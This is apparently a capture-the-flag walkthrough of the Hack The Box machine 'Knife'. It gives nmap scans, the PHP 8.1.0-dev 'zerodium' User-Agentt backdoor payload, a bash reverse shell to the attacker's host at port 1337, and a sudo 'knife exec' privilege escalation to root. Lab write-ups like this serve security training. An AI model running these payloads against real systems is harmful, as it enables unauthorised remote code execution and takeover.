










# [Knife](https://app.hackthebox.com/machines/knife)

```bash
nmap -sT -p- --min-rate 5000 10.10.10.242 -Pn
```



After seeing, open ports (22,80), we do greater nmap scan.

```bash
nmap -A -sC -sV -p22,80 10.10.10.242 -Pn
```




Let's analyze port 80 , what application structure is.

After analyzing requst&response cycle, we see that application's language is PHP and we can see via '**X-Powered-By**' header for its version.




We see that 'PHP/8.1.0-dev' version is used, let's search publicly known exploits.


Hola, I find [RCE](https://www.exploit-db.com/exploits/49933)

So, we just modify 'User-Agent' request header via below one.

```bash
User-Agentt: zerodium system("id")
```




Now, it's time to add reverse shell into here.

```bash
User-Agentt: zerodiumsystem("bash -c 'bash -i >& /dev/tcp/10.10.16.8/1337 0>&1'");
```




We got reverse shell.




Let's make interactive shell.

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
Ctrl+Z
stty raw -echo; fg
export TERM=xterm
export SHELL=bash
```




user.txt



Now, it's time for privesc, we just run `sudo -l` command.




We see that our user can run `knife` binary via SUDO privileges.


I find a exploit for this [binary](https://gtfobins.github.io/gtfobins/knife/)


```bash
sudo knife exec -E 'exec "/bin/sh"'
```


root.txt

